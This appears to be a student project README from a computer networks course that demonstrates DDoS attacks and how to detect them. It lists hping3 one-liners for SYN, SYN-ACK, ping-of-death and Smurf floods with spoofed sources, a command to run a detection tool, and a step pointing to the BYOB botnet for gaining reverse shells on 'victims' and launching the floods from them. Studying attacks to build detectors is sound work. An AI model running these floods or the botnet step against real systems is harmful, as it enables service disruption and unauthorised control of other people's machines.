 # DDOS attack and detection
Hping3, SniffnDetect and BYOB demonstration

This demonstration was a part of graded evalutation for the Course Computer Networks, TY Computer Engineering, COEP


## 1) DDOS attack
```sh
$ sudo apt intstall hping3
```
4 Attacks namely : 
- TCP SYN flood
```sh
$ sudo hping3 -S -p <port no> --flood --rand-source <target ip>
```
- TCP SYN-ACK flood
```sh
$ sudo hping3 -SA -p <port no> --flood --rand-source <target ip>
```
- Ping of Death 
```sh
$ sudo hping3 -1 -d <max packet size> -p <port no> --flood --rand-source <target ip>
```
- ICMP Smurf Attack
```sh
$ sudo hping3 -1 -d <max packet size> -p <port no> --flood <target ip> -a <target ip>
```

## DDOS Detection 
```sh
$ cd ddos-detector
$ sudo python3 app.py
```
Can detect the above attacks in the attack terminal with this toolkit

## BYOB

[Installation](https://github.com/malwaredllc/byob)

Gain access to reverse shell after installtion, and execute the above attacks on victims 



## License
MIT

